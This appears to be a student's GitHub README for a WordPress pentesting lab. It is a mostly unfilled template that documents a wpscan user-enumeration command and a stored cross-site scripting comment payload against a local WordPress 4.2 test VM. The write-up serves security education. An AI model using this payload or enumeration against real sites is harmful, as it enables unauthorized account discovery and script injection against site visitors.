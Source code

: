 # Project 7 - WordPress Pentesting

Time spent: **12** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

(Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types: User Enumeration
    - Tested in version: 4.2.2
    - Fixed in version: 
  - [ ] GIF Walkthrough: <img src="https://i.imgur.com/ffo9OYX.gifv" width="800">
  - [ ] Steps to recreate: run wpscan --url http://wpdistillery.vm/ --enumerate u on WPscan

  - [ ] Affected source code: https://github.com/WordPress/WordPress/blob/4.2-branch/wp-login.php
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
(Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
(Required) Vulnerability Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version: 4.2
    - Fixed in version: 4.2.4
  - [ ] GIF Walkthrough: <img src="https://i.imgur.com/dwgnDan.gif" width="800">
  - [ ] Steps to recreate: 
  
    1.Comment on a post with this comment <a href='/wp-admin/' title=""             style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(23)//'>Test</a>
  
  2. post comment
  
  3. alert 23 will show
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
(Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
(Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2018] [Mark Carino]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
